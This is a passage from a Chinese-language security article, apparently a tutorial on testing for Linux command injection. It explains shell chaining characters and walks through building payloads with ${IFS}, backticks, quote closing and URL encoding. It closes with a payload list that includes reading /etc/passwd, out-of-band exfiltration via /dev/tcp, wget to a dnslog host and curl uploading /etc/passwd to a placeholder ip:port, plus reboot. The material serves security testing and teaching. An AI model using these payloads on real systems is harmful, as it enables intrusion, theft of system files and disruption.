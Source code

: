 - IFS 由 < space > 或 < tab > 或 < enter > 三者之一组成
- CR 由 < enter > 产生

更多Linux命令注入基础知识可查看参考材料[16],[17]。(本文对参考材料[17]的引用较多,如原作者有要求可联系笔者删除)

关于输入输出重定向的说明，可查看参考材料[19]了解更多。

**Linux中比较常用的命令拼接符**
- \| 管道
- & 后台执行
- ; 命令分隔，执行完前面命令后再执行后面命令
- ` 执行反引号内部的命令 
- $() 命令执行
- %0a \n的URL编码 newline把光标移动到下一行
- %0d \r的URL编码 return把光标移动到当前行的最左边

**命令注入代码拼接分析**

前面用了大量的篇幅介绍了C/C++，Java, PHP, Python, Go以及Rust语言的命令执行错误实现。

我们测试命令注入，主要目标是那些调用了system系函数，以及调用exec系函数但是启动了解释器的代码。

命令拼接的原语句可能会比较复杂，比如涉及多个单双引号，各种括号的形式，以双引号来说，并不影响反引号的执行，而单引号会影响反引号的命令执行，所以最终在考虑payload时候，要考虑闭合单引号的情况。至于括号的情况就比较复杂，可以假设真的有漏洞也比较难被发现，暂时不去考虑这种情况。

我们以 encode(prefix + Chaining(injection cmd)  + postfix) 的形式介绍payload的扩展。

prefix和postfix的作用是让Chaining(injection cmd)在逻辑上有效。

假设原语句是 os.system("bash -c 'ls -al " + input + "'" > /dev/null"), 此时比较合理的prefix和postfix就应该是单引号，合理的payload为'`cmd`'。

我按照以下的逻辑来扩展payload：原始injection cmd --> ${IFS}替代空格 --> 前后加反引号（URL编码） --> 前后加单引号（URL编码） <br>
这里前后加反引号，以及${IFS}替代空格属于Chaining过程，而URL编码属于encode过程。
```
cat /etc/passwd 原始注入命令
cat${IFS}/etc/passwd 替代空格
`injection${IFS}cmd` 添加命令拼接符号，经测试发现，反引号和$(), 比分号，管道等更好用一些。
%60%69%6e%6a%65%63%74%69%6f%6e%24%7b%49%46%53%7d%63%6d%64%60 URL编码
'`injection${IFS}cmd`' 添加单引号，闭合可能存在单引号的情况
%27%60%69%6e%6a%65%63%74%69%6f%6e%24%7b%49%46%53%7d%63%6d%64%60%27 URL编码
```

下面是梳理出的原始injection cmd，这些cmd都可以通过上述方式扩展成最终paylaod

**payload梳理**
```
# 带内回显
cat /etc/passwd

# 带外请求
echo uuid>/dev/tcp/ip/port
wget `whoami`.xxx.dnslog.io
wget ip:port/uuid
curl -T /etc/passwd ip:port

# 基于延时的payload
reboot
sleep 30
ping -c 30 192.168.1.2

# 基于已有shell的payload
pwd>/tmp/cmdi_uuid
```
